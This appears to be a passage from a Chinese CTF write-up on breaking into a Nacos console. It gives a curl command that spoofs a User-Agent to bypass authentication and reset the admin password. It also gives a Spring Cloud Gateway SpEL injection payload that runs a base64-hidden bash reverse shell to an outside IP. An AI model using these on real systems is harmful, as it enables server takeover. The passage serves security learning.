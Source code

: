 首先的问题就是如何进入 nacos 后台

1、利用上文所给出的利用 bp 实现用户密码重置

2、利用用 UA 绕过鉴权的那个改 nacos 用户的密码可进入 nacos 后台

```bash
curl -X PUT 'http://IP:PORT/nacos/v1/auth/users?accessToken=' -H 'User-Agent:Nacos-Server' -d 'username=nacos&newPassword=root'
```

将给的 jar 包放到 jad，看题目给的附件来代码审计，根据上文的讲解，可以去查找`bootstrap.yml`文件来分析。

[![](assets/1700442594-c4ce0798f26e91db9882172d41ed9ae3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155650-07925c92-85e8-1.png)

发现了 backendservice 的 DataID 值：backcfg

综合现在得到的信息，下一步就该在 nacos 配置中心里面新建一个这样的配置让后台服务调用，且必须是 json 格式的。

根据上文，构造出**json**格式的 payload

```bash
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [{
                        "id": "aaa",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/test/**"],
                        "filters": [{
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```